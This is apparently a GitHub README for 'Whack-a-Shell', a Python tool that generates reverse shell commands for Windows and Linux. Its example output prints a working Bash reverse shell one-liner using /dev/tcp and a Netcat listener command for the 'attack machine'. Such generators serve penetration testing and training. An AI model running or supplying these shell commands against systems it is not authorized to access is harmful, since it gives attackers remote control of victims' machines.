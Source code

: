 
## Reverse Shell Generator

A Python tool for dynamically generating reverse shell commands for both Windows and Linux systems. This tool supports multiple shell types and provides easy-to-use prompts with built-in IP address and port validation.

## Features

- Cross-platform support**: Generates reverse shell commands for both Windows and Linux systems.
- Multiple reverse shell types**: Includes Bash, Python, Netcat for Linux, and PowerShell, Netcat for Windows.
- User-friendly interface**: Simple prompts for user input and shell selection.
- Error handling**: Validates IP address and port input, handling incorrect entries gracefully.

## Requirements

- **Python 3.x**
- `colorama` library for colored terminal output
- `ipaddress` library for IP validation (built into Python 3)
- Your custom `reverse_shells.py` file that contains `LinuxReverseShellGenerator` and `WindowsReverseShellGenerator`.

### Install dependencies

Run the following command to install `colorama`:

```bash
pip install colorama
```

## How to Run

1. Clone or download this repository to your local machine.
2. Ensure the `reverse_shells.py` file is in the same directory as the main script.
3. Run the Python script:

```bash
python3 Whack-a-Shell.py
```

## Usage

1. Select the target operating system (Windows or Linux) when prompted.
2. Enter a valid IP address and port number.
3. Choose from the available reverse shell types based on your OS selection.
4. The generated reverse shell command will be displayed, along with the command to set up a Netcat listener on the attack machine.

## Example

```
Please select the OS for the reverse shell:
Enter 1 for Windows
Enter 2 for Linux
Choice: 2

You have selected Linux for the reverse shell.

Enter the IP address: 192.168.1.10
Enter the port number: 4444

Please choose the shell program

Enter 1 for Bash Reverse Shell
Enter 2 for Python Reverse Shell
Enter 3 for Netcat Reverse Shell
Choice: 1

Here is your reverse shell: sh -i >& /dev/tcp/192.168.1.10/4444 0>&1

Run this command on the attack machine to set up a listener: nc -nvlp 4444
```

## Error Handling

- **Invalid IP Address**: The program will prompt for a valid IP address if the input is not a valid IPv4 format.
- **Invalid Port**: The port number must be between 1 and 65535. If the input is outside this range or is not a number, the program will prompt for a valid port.

## Customization

You can easily extend this tool by adding more reverse shell options to the `LinuxReverseShellGenerator` and `WindowsReverseShellGenerator` classes in the `reverse_shells.py` file.

## License
This project is licensed under the MIT License. See the LICENSE file for details.

